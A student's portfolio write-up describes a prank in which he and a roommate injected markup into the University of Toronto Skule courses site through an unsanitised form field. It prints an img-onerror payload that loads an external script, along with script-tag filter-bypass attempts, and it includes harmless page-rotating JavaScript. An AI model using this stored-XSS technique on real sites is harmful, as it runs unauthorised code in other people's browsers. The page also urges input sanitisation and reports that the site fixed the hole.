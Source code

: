 ```yaml
---
layout: default
title: Skule Security Sillyness
permalink: /evaluations/skulecourses/index.html
group: evaluations
---
```

My room mate [Zhuowei](http://zhuoweizhang.net) and I explored how secure [Skule's (U of T Engineering) courses page](http://courses.skule.ca) is,  
since it is host to supposed past exams that most U of T students download without a second thought.  

This was done mostly for fun and curiosity, with no malicious intent; **preserving the pages' usability was a primary concern**.  

The pages that were pranked include: [CSC180](http://courses.skule.ca/course/?q=CSC180H1) | [ESC103](http://courses.skule.ca/course/?q=ESC103H1) | [PHY180](http://courses.skule.ca/course/?q=PHY180H1)  
In case those pages were taken down, you can see the scripts in action: [Sample ESC103](esc103.html) | [Sample PHY180](phy180.html)  

Message to all readers and possibly maintainers of Skule:  
Please sanitize input boxes before injecting content into the page; it's too easy for someone to insert an \<a\> tag redirecting to a malicious site!  


**UPDATE (Dec 22, 2013)**: Fortunately Skule fixed this exploit! You can still check out the effect from the sample pages.  

<h2 class="anchor">Injecting Code (the clever part) <a class="anchor-link" title="permalink to section" href="#injection" name="injection">¶</a></h2>
--------------------------------
Before altering the actual course pages, an illegitimate course was created to allow prototyping.  
Skule's search cannot find the course, but direct access through URL allows access to upload and view.  

The first page to be "improved" was CSC180, which had an iframe element injected through the "Display As" field.  
Apparently **no sanitation of inputs is done...**  

<div class="frames">
<img src="dirtyinputs.png">
<p>Protect against spam... But what of dirty injections!?!</p>
</div>

The code for the CSC180 page was written by Zhuowei while I wrote the code for the ESC103 page.  
The PHY180 page's [GravityScript](https://code.google.com/p/gravityscript/) was written by Mr.Doob for Google and we simply embedded it into the page using the method below.  

The embedding for the CSC180 page was trivial since no scripting was required,  
but adding a script for the ESC103 and PHY180 pages were much more difficult.  

Just adding a \<script\> element didn't work.   
`<script src="some pastebin url"> </script>` 
After exhausting the possibilities by splitting the string up and concatenating them like `"<scr" + "ipt>"` and escaping the characters like  
`&quot;&lt;scr&quot; + &quot;ipt&gt;&quot;` we determined that the input ate script tags, apparently.  

Our workaround was to use an impossible to load \<img\> element that points to our script with its onerror attribute.
`<img onerror="a=document.createElement(&quot;script&quot;);a.src=&quot;url to our code&quot;;document.body.appendChild(a)" src="http://localhost:1">`  

It will always load my script because http://localhost:1 as an image can never load!

<h2 class="anchor">Javascript (the dumb part) <a class="anchor-link" title="permalink to section" href="#code" name="code">¶</a></h2>
-------------------------
I took this as an opportunity to get familiar with Javascript, seeing as I recently learned HTML and CSS for this portfolio.  
Gaining proficiency in JS will complete my skill set as a web developer, which will be widely useful since the web is becoming a larger distributor of applications.  
Web apps are robust in being 100% cross-platform, requiring just a browser to function on any OS and device, compatible with my philosophy for robustness.  

The idea was to create an effect that was immediately noticeable yet is easy to turn off to preserve usability.  
Seeing as this was our linear algebra course, I went with rotating the page, which is a linear transformation :D.  
A large button was placed in the centre of the page to make it easy for people to return the page to normal since its location will stay still.
<pre><code>var timer = setInterval(transform,50);
var degreez = 0;
var allSet = false;
var bellybutton;
function transform(){
	if (!allSet) {
		var transOrigin = "50% 50%";
		document.body.parentElement.style.height = "100%";
		document.body.style.minHeight = "100%";
		document.body.style.transformOrigin = transOrigin;
		document.body.style.webkitTransformOrigin = transOrigin;
		document.body.style.mozTransformOrigin = transOrigin;
		bellybutton = document.createElement("button");
		bellybutton.innerHTML = "CLICK TO STOP PUKING";
		bellybutton.style.position = "absolute";
		bellybutton.style.left = "45%";
		bellybutton.style.top =  "45%";
		bellybutton.style.width = "10%";
		bellybutton.style.height =  "10%";
		document.body.appendChild(bellybutton);
		bellybutton.onclick = stoppuking;
		allSet = true;
	}
	var transString = "rotate(" + degreez + "deg)";
	document.body.style.transform = transString;
	document.body.style.webkitTransform = transString;
	document.body.style.mozTransform = transString;
	degreez += 1;
}
function stoppuking(){
	clearInterval(timer);
	var transString = "";
	document.body.style.transform = transString;
	document.body.style.webkitTransform = transString;
	document.body.style.mozTransform = transString;
	document.body.removeChild(bellybutton);
}
</code></pre>

This code was designed to work on all browsers and devices (webkit, moz, and unnamed),  
and a button was chosen because it can be clicked on all devices, whereas some other mechanisms  
such as onhover aren't mobile compatible.  

Lastly, I'll leave how we changed the years to an arbitrary number as an anagram, decode it if you can:  
a cad ed retelevise fill unlit  (It is in English, has 1 verb, 1 noun, and 3 adjectives)

<h2 class="anchor">Gains from Experience <a class="anchor-link" title="permalink to section" href="#gains" name="gains">¶</a></h2>
---------------------------
- Javascript experience and interest in web development
- Appreciation of sanitizing inputs
- Knowledge of this issue to Skule maintainers that they may fix it
- Fun :D
